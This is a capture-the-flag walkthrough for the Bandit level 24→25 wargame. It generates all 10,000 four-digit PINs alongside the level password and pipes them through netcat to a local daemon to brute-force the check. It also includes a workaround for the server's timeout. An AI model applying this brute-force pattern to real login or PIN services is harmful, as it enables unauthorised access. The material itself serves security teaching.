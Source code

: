 ## Level 24 → Level 25

> **Level Goal**
>
*A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.*

You have to connect to the server on port 30002:
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
it will ask for the password and a pincode, try it out:
```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111
Wrong! Please enter the correct pincode. Try again.
^C
```
you know the password, but not the pin... with so many possible combinations, you have to brute force. Write a script or do a *oneliner*, it's up to you... create a temp folder and generate a file with all combinations for the 4-digit pincode:
```
bandit24@bandit:~$ mkdir /tmp/bml_2425 && cd /tmp/bml_2425
bandit24@bandit:/tmp/bml_2425$ for pin in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin >> pincodes.txt; done
bandit24@bandit:/tmp/bml_2425$ cat pincodes.txt | wc -l
10000
bandit24@bandit:/tmp/bml_2425$ tail pincodes.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
```
now you have all combinations, send them to the port:
```
bandit24@bandit:/tmp/bml_2425$ cat pincodes.txt | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
[...]
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again. -n
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
```
sometimes the server will timeout, you could keep trying until it works, or go creative... send the last 5000 pincodes for example:
```
bandit24@bandit:/tmp/bml_2425$ tail -n 5000 pincodes.txt | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```